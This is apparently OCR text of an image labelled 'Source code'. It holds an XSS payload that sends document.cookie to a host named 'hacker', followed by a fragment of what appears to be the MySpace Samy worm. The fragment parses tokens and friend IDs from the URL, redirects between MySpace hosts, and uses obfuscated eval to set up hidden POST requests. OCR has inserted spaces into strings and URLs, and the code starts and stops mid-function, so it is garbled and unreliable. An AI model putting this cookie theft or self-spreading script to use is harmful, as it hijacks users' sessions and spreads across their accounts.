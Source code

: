 ```php+HTML ">var+img=new+Image();img.src=&quot;<a href="http://hacker/”%20+%20document.cookie">http://hacker/”%20+%20document.cookie</a>;
        var V = BF.indexOf(U) + U.length;
        var W = BF.substring(V, V + 1024);
        var X = W.indexOf(T);
        var Y = W.substring(0, X);
        return Y
    }
    function getData(AU) {
        M = getFromURL(AU, 'friendID');
        L = getFromURL(AU, 'Mytoken')
    }
    function getQueryParams() {
        var E = document.location.search;
        var F = E.substring(1, E.length).split(' & ');
        var AS = new Array();
        for (var O = 0; O < F.length; O++) {
            var I = F[O].split(' = ');
            AS[I[0]] = I[1]
        }
        return AS
    }
    var J;
    var AS = getQueryParams();
    var L = AS['Mytoken'];
    var M = AS['friendID'];
    if (location.hostname == 'profile.myspace.com') {
        document.location
            = 'http: //www.myspace.com' + location.pathname + location.search
    } else {
        if (!M) {
            getData(g())
        }
        main()
    }
    function getClientFID() {
        return findIn(g(), 'up_launchIC(' + A, A)
    }
    function nothing() {}
    function paramsToString(AV) {
        var N = new String();
        var O = 0;
        for (var P in AV) {
            if (O > 0) {
                N += ' & '
            }
            var Q = escape(AV[P]);
            while (Q.indexOf(' + ') != -1) {
                Q = Q.replace(' + ', ' % 2B')
            }
            while (Q.indexOf(' & ') != -1) {
                Q = Q.replace(' & ', ' % 26')
            }
            N += P + ' = ' + Q; O++
        }
        return N
    }
    function httpSend(BH, BI, BJ, BK) {
        if (!J) {
            return false
        }
        eval('J.onr' + 'eadystatechange = BI');
        J.open(BJ, BH, true);
        if (BJ == 'POST') {
            J.setRequestHeader('Content - Type', 'application / x - www - form - urlencoded');
```